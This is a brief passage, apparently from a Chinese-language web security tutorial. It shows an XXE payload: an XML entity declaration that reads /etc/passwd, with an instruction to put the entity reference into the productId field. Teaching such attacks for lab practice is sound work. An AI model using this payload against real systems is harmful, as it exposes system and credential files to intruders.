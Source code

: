     ```
    <!DOCTYPE test [ <!ENTITY xxe SYSTEM "file:///etc/passwd"> ]>
    ```

同时，将 **productId** 元素中的数字替换为 **&xxe;**：

![图 11.5 – XXE 注入点](img/B21173_11_005.jpg)

